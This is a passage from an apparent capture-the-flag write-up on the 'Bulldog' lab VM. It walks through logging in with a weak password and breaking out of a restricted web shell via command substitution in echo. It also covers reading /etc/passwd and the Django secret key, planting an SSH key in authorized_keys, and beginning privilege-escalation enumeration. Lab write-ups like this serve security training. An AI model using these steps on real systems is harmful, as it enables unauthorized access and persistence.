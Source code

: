 Nick use a weak password and it can be used to login into the Django admin interface but he has no access.

[/media/2017.11/3.png]

Nevertheless nick has access to the restricted web-shell

[/media/2017.11/4.png]

We can explore a bit, cat `/etc/passwd` but mostly we can access the django secret key in bulldog/settings.py

	cat bulldog/settings.py
	<SNIP>
	# SECURITY WARNING: keep the secret key used in production secret!
	SECRET_KEY = '%9a3ph3iwk$v*_#x4ejg8(t5(qll0fl8q8&u+o_g$yi83d*riq'
	<SNIP>o

And we can easily break out of the "jail" with the `echo` command:

    echo `id`
    uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Therefore we can create a directory `.ssh` inside the  django user home:

    echo `mkdir /home/django/.ssh`

And then echo our ssh public key inside (you need to change the filed size with the firefox inspector):

    echo 'ssh-rsa AAAAB3Nt/<SNIP>'> /home/django/.ssh/authorized_keys

Then we got an interactive shell with ssh:

    ssh -ldjango 10.0.2.4 -p23

## PrivEsc

By looking more into the users directory we discover that we have a read access on djangoadmin
files and that a `.hiddenadmindirectory` is present with a note and an executable:

    django@bulldog:~$ ls -ahlR /home
    /home:
    total 16K
    drwxr-xr-x  4 root         root         4.0K Aug 24 18:16 .
    drwxr-xr-x 24 root         root         4.0K Aug 25 22:07 ..
    drwxr-xr-x  5 bulldogadmin bulldogadmin 4.0K Sep 20 19:45 bulldogadmin
    drwxr-xr-x  6 django       django       4.0K Nov  9 09:43 django

    /home/bulldogadmin:
    total 40K
    drwxr-xr-x 5 bulldogadmin bulldogadmin 4.0K Sep 20 19:45 .
    drwxr-xr-x 4 root         root         4.0K Aug 24 18:16 ..
    -rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 17:39 .bash_logout
    -rw-r--r-- 1 bulldogadmin bulldogadmin 3.7K Aug 24 17:39 .bashrc
    drwx------ 2 bulldogadmin bulldogadmin 4.0K Aug 24 17:40 .cache
    drwxrwxr-x 2 bulldogadmin bulldogadmin 4.0K Sep 20 19:44 .hiddenadmindirectory
    drwxrwxr-x 2 bulldogadmin bulldogadmin 4.0K Aug 24 22:18 .nano
    -rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 17:39 .profile
    -rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 24 22:18 .selected_editor
    -rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 17:45 .sudo_as_admin_successful
    -rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 18:20 .wget-hsts
    ls: cannot open directory '/home/bulldogadmin/.cache': Permission denied
